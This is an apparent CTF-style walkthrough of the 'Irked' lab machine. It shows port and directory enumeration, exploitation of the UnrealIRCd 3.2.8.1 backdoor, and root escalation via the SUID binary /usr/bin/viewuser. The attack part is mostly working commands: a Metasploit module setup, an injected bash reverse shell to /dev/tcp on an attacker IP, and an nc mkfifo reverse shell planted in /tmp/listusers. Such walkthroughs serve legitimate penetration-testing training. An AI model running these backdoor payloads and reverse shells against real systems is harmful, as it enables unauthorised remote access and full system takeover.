







# Summary


## about target

tip:  10.129.

hostname: 

Difficulty: 


## about attack

+ ircd enum,  connect and got version. vuln check and get shell.
+ viewuser suid exploit. 
+ 


**attack note**

```bash
Irded / 10.129.3.210

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
|_irc-info: Unable to open connection
34787/tcp open  rpcbind
65534/tcp open  irc     UnrealIRCd
|_irc-info: Unable to open connection


---- http enum / rabbit hole
# nothing found.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log


---- irc enum 
-- irked.htb, from nc connect
-- djmardov@irked.htb, from nmap irdc sc scan.
-- unrealIRCd exploit, version 3.2.8.1 backdoor/remote downloader&execute

nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 6697,8067 irked.htb


---- exploit 

use (unix/irc/unreal_ircd_3281_backdoor)
set payload payload/cmd/unix/bind_perl
set rhosts 10.129.3.210
set rport 6697
run 

---- local enum / ircd
-- Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux

-- lpeas.sh
CVE-2018-14665
CVE-2015-8660

/usr/bin/viewuser (Unknown SUID binary)

---- system 

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 9002 >/tmp/f" > /tmp/listusers
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
|_irc-info: Unable to open connection
34787/tcp open  rpcbind
65534/tcp open  irc     UnrealIRCd
|_irc-info: Unable to open connection
```


## http enum

dir scan, nothing.

```bash
# nothing found.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log
```


## Ircd enum

```bash
nc -nv $tip 6697
```

found domain name and email address, could be the user.

-- irked.htb, from nc connect
-- djmardov@irked.htb, from nmap irdc sc scan.




nmap sc scan, nothing.

```bash
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 6697,8067 irked.htb
```




enum the version.  from ipsec video. 

search key: RFC irc

```bash
nc -nv $tip 6697
PASS test123
NICK test

USER test hostname servername :test123
```




Search exploit. if no version info, try the exploit.

Search irdc, got serveral exploit. 




vulnerablity  check

```bash
echo "AB; ping -c 1 10.10.14.78" | nc -nv $tip 6697

# get shell
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1'" | nc -nv $tip 6697
```




# Exploitation

```bash
use unix/irc/unreal_ircd_3281_backdoor
set payload payload/cmd/unix/bind_perl
set rhosts 10.129.3.210
set rport 6697
run 
```



ircd session. 

# Privesc


## Local enum

Manual enum, nothing.  no cron job, no sudo, no password found. 

linpeas enum.

CVE-2018-14665
CVE-2015-8660

/usr/bin/viewuser (Unknown SUID binary)


## System

viewuser suid exploit.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 9002 >/tmp/f" > /tmp/listusers

chmod 777 /tmp/listusers

/usr/bin/viewuser
```

got root shell.



